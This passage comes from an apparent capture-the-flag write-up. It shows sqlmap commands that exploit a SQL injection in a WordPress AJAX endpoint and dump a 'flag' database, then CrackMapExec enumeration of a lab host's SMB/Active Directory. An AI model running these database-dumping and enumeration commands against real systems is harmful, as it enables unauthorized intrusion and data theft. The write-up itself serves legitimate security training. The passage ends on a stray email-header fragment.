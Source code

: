 <details><summary>SQLMap Output:</summary></details>


We can see that it's both vulnerable to a boolean and a time-based SQLi; let's exploit that:

{{< highlight bash >}}
$ sqlmap -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1 *" --dump-all
{{< /highlight >}}

We wait for a bit and we can see that there's a table named 'flag'

{{< highlight bash >}}
fetching tables for databases: 'flag, information_schema, wordpress'
{{< /highlight >}}


Let's dump that one:

{{< highlight bash >}}
$ sqlmap -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1 *" --dump --code=200 --dbms=MySQL -D flag
{{< /highlight >}}

{{< highlight sql >}}
Database: flag
Table: flag
[1 entry]
+-----------------------+
| flag                  |
+-----------------------+
| FLAG{Update_Plugins!} |
+-----------------------+
{{< /highlight >}}

Bingo: <code>FLAG{Update_Plugins!}</code>

# Windows Exploitation

<br>
Now we'll jump straight to Windows exploiting; while I was discussing the CTF with a NUWE employer, I told them that I found
LDAP Ports opened on the machine (Along SMB, RPC...) so those were interesting targets for me just as I saw them, but decided
against starting w/ those due to finding web exploiting generally easier.


So what I did next is trying to find information regarding the Active Directory running in the machine, for that, I used CrackMapExec.

{{< highlight bash >}}
$ cme smb 192.168.1.145
{{< /highlight >}}


This returned:


[EmailTo]: eescalera@geohome.com
[EmailFrom]: ffuertes@geohome.com
[Subject]: Instagram